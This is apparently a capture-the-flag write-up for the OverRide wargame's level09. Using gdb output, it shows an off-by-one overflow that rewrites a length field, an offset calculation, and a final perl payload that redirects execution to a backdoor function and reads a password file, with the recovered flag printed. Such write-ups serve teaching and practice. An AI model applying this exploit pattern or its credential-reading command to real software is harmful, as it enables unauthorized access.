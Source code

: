 # level09

The program reads a username and a message from stdin. It also has a secret function `secret_backdoor`.

## Step 1. Mesure struct size
```assembly
level09@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble handle_msg" level09
Dump of assembler code for function handle_msg:
   0x00000000000008c0 <+0>:	push   rbp
   0x00000000000008c1 <+1>:	mov    rbp,rsp
   0x00000000000008c4 <+4>:	sub    rsp,0xc0
   0x00000000000008cb <+11>:	lea    rax,[rbp-0xc0]		; 192 bytes
   0x00000000000008d2 <+18>:	add    rax,0x8c			; 140 bytes
   0x00000000000008d8 <+24>:	mov    QWORD PTR [rax],0x0
   0x00000000000008df <+31>:	mov    QWORD PTR [rax+0x8],0x0
   0x00000000000008e7 <+39>:	mov    QWORD PTR [rax+0x10],0x0
   0x00000000000008ef <+47>:	mov    QWORD PTR [rax+0x18],0x0
   0x00000000000008f7 <+55>:	mov    QWORD PTR [rax+0x20],0x0 ; 40 bytes set to 0
   0x00000000000008ff <+63>:	mov    DWORD PTR [rbp-0xc],0x8c ; 8 bytes
[...]
```
```c
struct mystruct
{
	char first[140];
	char second[40];
	int third;
};
```
According to the disassembly, the program defines a structure like this in the `handle_msg` function.

## Step 2. Find spot to overwrite
``` assembly
level09@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble set_username" level09
[...]
   0x0000000000000a3d <+112>:	mov    DWORD PTR [rbp-0x4],0x0	; initialize i = 0
   0x0000000000000a44 <+119>:	jmp    0xa6a <set_username+157>
   0x0000000000000a46 <+121>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a49 <+124>:	cdqe
   0x0000000000000a4b <+126>:	movzx  ecx,BYTE PTR [rbp+rax*1-0x90]
   0x0000000000000a53 <+134>:	mov    rdx,QWORD PTR [rbp-0x98]
   0x0000000000000a5a <+141>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a5d <+144>:	cdqe
   0x0000000000000a5f <+146>:	mov    BYTE PTR [rdx+rax*1+0x8c],cl
   0x0000000000000a66 <+153>:	add    DWORD PTR [rbp-0x4],0x1	; ++i
   0x0000000000000a6a <+157>:	cmp    DWORD PTR [rbp-0x4],0x28
   0x0000000000000a6e <+161>:	jg     0xa81 <set_username+180>	; if i > 40 break loop
   0x0000000000000a70 <+163>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a73 <+166>:	cdqe
   0x0000000000000a75 <+168>:	movzx  eax,BYTE PTR [rbp+rax*1-0x90]
   0x0000000000000a7d <+176>:	test   al,al
   0x0000000000000a7f <+178>:	jne    0xa46 <set_username+121>
```
```c
for (int i = 0; i <= 40; ++i)
	// copy buffer to struct
```
In the `set_username` function, the program copy 41 bytes from input buffer to second element of the structure whose size is 40 bytes. So 41st byte overwrite third element of the structure. Now we can overwrite third element who can control how many bytes we can copy to first element of the structure.

## Step 3. Calculate offset to overwrite `rip`
```assembly
[...]
   0x0000555555554906 <+70>:	lea    rax,[rbp-0xc0]
   0x000055555555490d <+77>:	mov    rdi,rax
=> 0x0000555555554910 <+80>:	call   0x5555555549cd <set_username>
   0x0000555555554915 <+85>:	lea    rax,[rbp-0xc0]
   0x000055555555491c <+92>:	mov    rdi,rax
   0x000055555555491f <+95>:	call   0x555555554932 <set_msg>
[...]
```
```
level09@OverRide:~$ gdb -q level09
(gdb) break *0x0000555555554910
Breakpoint 1 at 0x555555554910
(gdb) run
Starting program: /home/users/level09/level09
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 1, 0x0000555555554910 in handle_msg ()
(gdb) info registers rax
rax            0x7fffffffe500	140737488348416
(gdb) info frame
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x555555554910 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe5c0, args:
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8
(gdb) print 0x7fffffffe5c8 - 0x7fffffffe500
$1 = 200
```
We set a breakpoint before calling `set_username`, then got offset `200` by calculating `rip - rax`.

## Step 4. Find the address of secret backdoor function
```
level09@OverRide:~$ gdb -batch -ex "info functions secret_backdoor" level09
0x000000000000088c  secret_backdoor
```
```
level09@OverRide:~$ gdb -q level09
(gdb) break main
Breakpoint 1 at 0xaac
(gdb) run
Starting program: /home/users/level09/level09

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info functions secret_backdoor
0x000055555555488c  secret_backdoor
```
We thought that the binary was compiled with PIE(position-independent executable) option. The absolute address of function must be found at runtime.

## Final step. Build payload
```
level09@OverRide:~$ perl -e 'print "A"x40 . "\xff" . "\n" . "A"x200 . "\x8c\x48\x55\x55\x55\x55\x00\x00" . "\n" . "cat /home/users/end/.pass"' | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
